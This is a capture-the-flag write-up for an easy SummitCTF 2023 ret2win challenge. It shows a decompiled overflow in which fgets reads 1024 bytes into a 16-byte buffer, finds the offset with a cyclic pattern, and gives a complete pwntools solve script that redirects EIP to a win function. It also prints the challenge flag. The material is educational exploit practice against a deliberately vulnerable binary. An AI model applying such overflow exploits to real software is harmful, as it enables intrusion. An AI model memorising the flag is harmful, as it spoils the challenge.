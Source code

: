 ```yaml
---
title: "Simple Stack Smash (SummitCTF 2023)"
summary: "Easy pwn Challenge - ret2win"
description: "Easy pwn Challenge - 100 points"
tags: [pwn, easy, writeup]
date: 2023-04-23T22:00:00-05:00
draft: false
searchHidden: false
ShowToc: true
TocOpen: false
hidemeta: false
# weight: 1
---
```


## Description

Can you perform a simple stack smash? I hope so, you'll need to in order to reach the summit...

Given file: [simple-stack-smash](/summitctf-simple-stack-smash/simple-stack-smash)

---

## Writeup

I'm going to use GDB with the [pwndbg](https://github.com/pwndbg/pwndbg) plugin for this challenge. Run `gdb <file>`

![name](/summitctf-simple-stack-smash/2023-04-23-21-44-48.png#center)

Here is the main function revealed in Ghidra:

```c
undefined4 main(void)
{
  char name_input [16];
  
  setvbuf(stdout,(char *)0,2,0);
  setvbuf(stderr,(char *)0,2,0);
  printf("Please enter your name: ");
  fgets(name_input,1024,stdin);
  printf("Hello, %s!\n",name_input);
  return 0;
}
```
Curiously, there exists a `win` function:

```c
void win(void)
{
  system("cat /src/flag.txt");
  exit(0);
}
```

A ret2win challenge, where the objective is to redirect execution to the win function (`win_addr`). To do so, we need to figure out at what point of our input, the buffer overflow occurs (`offset`).

In gdb, `info fun win`: gives us the win_addr =` 0x08049216`

To find the offset we send a bunch of strings in the following cyclic pattern:
`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa..` to find until what letter can the stack hold.
```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./simple-stack-smash")
p = elf.process()
win_addr = 0x08049216

context.binary = elf
context.log_level = "DEBUG"
gdb.attach(p)

p.sendline(cyclic(100))  # send pattern
p.interactive()  
# run script, enter 'c' in gdb to continue
```
We can see in gdb that the program SEGFAULTed when it's `%EIP` was pointing to 'gaaa' which caused the buffer overflow. If you're unfamiliar with assembly registers, `%EIP` is the instruction pointer which tells the computer what the next command is that must be executed. After making `%EIP` to point to our win function, we get the flag.

![name](/summitctf-simple-stack-smash/2023-04-23-23-04.png#center)

&nbsp;

### Solve script
Completing the script:
```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./simple-stack-smash")
p = elf.process()
win_addr = 0x08049216

context.binary = elf

# context.log_level = "DEBUG"
# gdb.attach(p)
# p.sendline(cyclic(100))  # sending pattern

offset = cyclic_find("gaaa")

p.sendlineafter(b"name: ", b"A" * offset + p32(win_addr))
p.interactive()
```

## Flag

`summitCTF{G1mMI3_S0M3th1NG_H4rD3r_PlZ}`

---
